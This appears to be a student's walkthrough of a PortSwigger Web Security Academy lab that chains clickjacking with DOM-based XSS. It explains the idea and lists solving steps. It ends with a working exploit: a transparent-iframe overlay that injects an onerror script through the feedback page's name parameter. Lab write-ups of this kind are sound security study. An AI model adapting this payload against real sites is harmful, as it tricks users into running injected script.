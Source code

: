 - So far, we have looked at clickjacking as a self-contained attack. Historically, clickjacking has been used to perform behaviors such as boosting "likes" on a Facebook page.
- The true potency of clickjacking is revealed when it is used as a carrier for another attack such as a [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) attack.
- Implementation of this combined attack is relatively straightforward assuming that the attacker has first identified the [XSS](https://portswigger.net/web-security/cross-site-scripting) exploit.
- The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

## Steps to solve lab - 
### Title - Exploiting clickjacking vulnerability to trigger DOM-based XSS

**Desc** - This lab contains an [XSS](https://portswigger.net/web-security/cross-site-scripting) vulnerability that is triggered by a click. Construct a [clickjacking attack](https://portswigger.net/web-security/clickjacking) that fools the user into clicking the "Click me" button to call the `print()` function.


1. Log in to your account on the target website.
  ![[clickjacking2.png]]

2. After visiting every end-point, I got a end-point that seems suspecious.
![[clickjacking20.png]]

3. I try to analyze this page and it reflects the name in the web page that seems to be a posible DOM XSS vulnerability.
![[clickjacking19.png]]

4. I try to exploit this using the payload and it works.
![[clickjacking21.png]]

5. Copy and paste the below payload in the exploit server.
```js
	<style>
		#target_website {
			position: relative;
			width: 600px;
			height: 600px;
			opacity: 0.1;
			z-index: 2;
			}
		#decoy_website {
			position: absolute;
			z-index: 1;
			top: 448px;
			left: 73px;
			}
	</style>
	<div id="decoy_website">
	Click Me
	</div>
	<iframe scrolling="no" id="target_website" src="https://0aee002a04abf96f80f4806500ed001d.web-security-academy.net/feedback/?name=<img src=0 onerror=print()>&email=email@gmail.com&subject=nothing&message=nothing" sandbox="allow-forms" >
	</iframe>
```

![[clickjacking22.png]]

